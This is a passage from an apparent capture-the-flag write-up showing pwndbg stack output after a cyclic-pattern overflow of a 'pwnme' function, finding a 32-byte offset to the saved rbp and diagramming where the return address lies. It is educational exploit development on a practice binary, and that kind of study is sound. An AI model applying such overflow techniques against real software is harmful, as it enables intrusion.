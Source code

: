 ```


───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffdc88 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaa'
01:0008│     0x7fffffffdc90 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaa'
02:0010│     0x7fffffffdc98 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaa'
03:0018│     0x7fffffffdca0 ◂— 'iaaaaaaajaaaaaaakaaaaaaalaaaaaaa'
04:0020│     0x7fffffffdca8 ◂— 'jaaaaaaakaaaaaaalaaaaaaa'
05:0028│     0x7fffffffdcb0 ◂— 'kaaaaaaalaaaaaaa'
06:0030│     0x7fffffffdcb8 ◂— 'laaaaaaa'
07:0038│     0x7fffffffdcc0 ◂— 0
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► 0         0x400741 pwnme+89
   1 0x6161616161616166
   2 0x6161616161616167
   3 0x6161616161616168
   4 0x6161616161616169
   5 0x616161616161616a
   6 0x616161616161616b
   7 0x616161616161616c
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Once the frame is collapsed, the `rbp` register has the value `0x6161616161616165` which is the ASCII representaion of `eaaaaaaa` in little endian format.

Let's find the offset of this value in our cyclic pattern.

```
pwndbg> cyclic -l 0x6161616161616165
Finding cyclic pattern of 8 bytes: b'eaaaaaaa' (hex: 0x6561616161616161)
Found at offset 32
```

So the offset is 32 bytes.

Let's see how this looks on the stack.

### Stack

```
<==: Value is stored at the address
<--: Points to the address

                        ╎  .. .. .. .. .. .. .. ..  ╎
                        ┌───────────────────────────┐
     rsp --> buffer ==> │  61 61 61 61 61 61 61 61  │ 
                        │  62 61 61 61 61 61 61 61  │ 
                        │  63 61 61 61 61 61 61 61  │
                        │  64 61 61 61 61 61 61 61  │
                        ├╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌┤
 rbp --> stored rbp ==> │  65 61 61 61 61 61 61 61  │  
                        ├╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌╌┤
     return address ==> │  66 61 61 61 61 61 61 61  │ 
                        └───────────────────────────┘
                        ╎  .. .. .. .. .. .. .. ..  ╎
```
